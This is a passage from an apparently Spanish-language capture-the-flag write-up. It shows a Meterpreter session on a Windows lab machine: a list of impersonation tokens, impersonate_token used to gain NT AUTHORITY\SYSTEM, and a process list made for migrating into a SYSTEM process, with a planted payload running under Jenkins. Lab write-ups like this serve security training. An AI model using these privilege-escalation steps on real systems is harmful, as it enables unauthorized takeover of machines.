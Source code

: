NT SERVICE\WinDefend
NT SERVICE\Winmgmt
NT SERVICE\WSearch
NT SERVICE\wuauserv

Impersonation Tokens Available
========================================
NT AUTHORITY\NETWORK
NT SERVICE\AudioSrv
NT SERVICE\DcomLaunch
NT SERVICE\Dhcp
NT SERVICE\DPS
NT SERVICE\lmhosts
NT SERVICE\MpsSvc
NT SERVICE\netprofm
NT SERVICE\nsi
NT SERVICE\PolicyAgent
NT SERVICE\Power
NT SERVICE\ShellHWDetection
NT SERVICE\W32Time
NT SERVICE\WdiServiceHost
NT SERVICE\WinHttpAutoProxySvc
NT SERVICE\wscsvc


EJECUTAMOS EL COMANDO CON IMPERSONATE_TOKEN PARA USAR EL TOKEN QUE VIMOS AVALIBLE DE ADMINISTRATOR Y OBTENEMOS LA ELEVACIOND E PRIVILEGIOS COMO AUTORITY SYSTEM, SE TENZO:




meterpreter > getuid
Server username: alfred\bruce
meterpreter > impersonate_token "BUILTIN\Administrators"
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM
[+] Delegation token available
[+] Successfully impersonated user NT AUTHORITY\SYSTEM
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM




TRATAMOS DE MIGRARA A UN PROCESO DE SYSTEM PARA ASEGURARNOS DE LOS PERMISOSO DE PRIVILEGIOS COMPLETOS POR EL MANEJO DE TOKEN DEL SISTEMA POR AHI NO PODEMOS TENER LOS PRIVILEGIOS TOTALES HASTA MIGRARA A UN PROCESO ACTUAL EJECUTADO POR SYSTEMA:




meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > ps

Process List
============

 PID   PPID  Name               Arch  Session  User                          Path
 ---   ----  ----               ----  -------  ----                          ----
 0     0     [System Process]
 4     0     System             x64   0
 396   4     smss.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\smss.exe
 468   2440  shell-paimon.exe   x86   0        alfred\bruce                  C:\Program Files (x86)\Jenkins\
                                                                             shell-paimon.exe
 524   516   csrss.exe          x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\csrss.exe
 572   564   csrss.exe          x64   1        NT AUTHORITY\SYSTEM           C:\Windows\System32\csrss.exe